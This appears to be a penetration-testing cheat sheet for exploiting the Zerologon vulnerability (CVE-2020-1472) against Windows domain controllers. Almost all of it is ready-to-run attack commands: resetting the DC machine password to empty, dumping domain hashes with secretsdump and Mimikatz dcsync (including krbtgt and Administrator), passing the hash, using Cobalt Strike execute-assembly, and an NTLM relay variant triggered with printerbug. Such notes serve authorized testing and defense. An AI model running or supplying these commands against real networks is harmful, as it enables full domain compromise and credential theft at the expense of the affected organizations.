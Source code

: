 ## CVE-2020-1472 Zerologon

#### As the name implies, if the machine is vulnerable to Zerologon, it can reset the administrator credentials to an empty string, then attempt to dump the hashes via secretsdump without having to use a password.

### Tools: Impacket-secretsdump, https://github.com/risksense/zerologon, https://github.com/SecuraBV/CVE-2020-1472

#### 1) python3 set_empty_pw.py NETBIOS_NAME DC_IP 

#### 2) If attempt was successful, then: impacket-secretsdump -just-dc -no-pass DOMAIN.LOCAL/NETBIOS_NAME\$DC_IP

#### impacket-secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'

#### 3) When you dump the domain admin hash, you can use it to Pass-the-Hash via evil-winrm or attempt to crack it offline with hashcat

#### 4) At login, copy the SAM and SYSTEM hives to your local machine, then dump them offline (Alternative to secretsdump)

#### 5) python3 reinstall_original_pw.py NETBIOS_NAME DC_IP ORIGINAL_NTLM_ADMIN_HASH (Reinstalls the original password that the admin had to prevent permanent damage on the machine)

### TIP: The LM and NTLM hashes represented in the command are actually the hashed version of empty password/string

## Alternate Method: nccfsas - .NET binary for Cobalt Strike's execute-assembly

### Tools: https://github.com/nccgroup/nccfsas

### Steps:

#### 1) execute-assembly SharpZeroLogon.exe DOMAIN_CONTROLLER.LOCAL (Check)

#### 2) execute-assembly SharpZeroLogon.exe DOMAIN_CONTROLLER.LOCAL -reset (Reset the machine account password)

#### 3) execute-assembly SharpZeroLogon.exe DOMAIN_CONTROLLER.LOCAL -patch (Reset the password back)

## Alternate Method: CrackMapExec (Only check)

#### 1) crackmapexec smb DC_IP -u USERNAME -p PASSWORD -d DOMAIN -M zerologon

## Alternate Method: Mimikatz - 2.2.0 20200917 Post-Zerologon

### Steps:

#### 1) privilege::Debug

#### 2) lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ (Check for CVE)

#### 3) lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ /exploit (Exploit the CVE and set the computer account's password to "")

#### 4) lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:krbtgt /authuser:DC01$ 

#### lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:Administrator /authuser:DC01$ (Execute dcsync to extract some hashes)

#### 5) sekurlsa::pth /user:Administrator /domain:LAB /rc4:HASH_NTLM_ADMIN (Pass The Hash with the extracted Domain Admin hash)

#### 6) lsadump::postzerologon /target:DC_IP /account:DC01$ (Reset password. Use IP address instead of FQDN to force NTLM with Windows APIs)

### A 2nd approach to exploit zerologon is done by relaying authentication.

## Prerequisites:

 - A domain account

 - One DC running the PrintSpooler service

 - Another DC vulnerable to zerologon

 - ntlmrelayx and any tool such as printerbug.py

## Steps:

#### 1) rpcdump.py 10.10.10.10 | grep -A 6 "spoolsv" (Check if one DC is running the PrintSpooler service)

#### 2) ntlmrelayx.py -t dcsync://DOMAIN_CONTROLLER.LOCAL -smb2support (Setup ntlmrelay in one shell)

#### 3) python3 printerbug.py 'DOMAIN.LOCAL'/joe:Password123@10.10.10.10 10.10.10.12 (Trigger printerbug in 2nd shell)
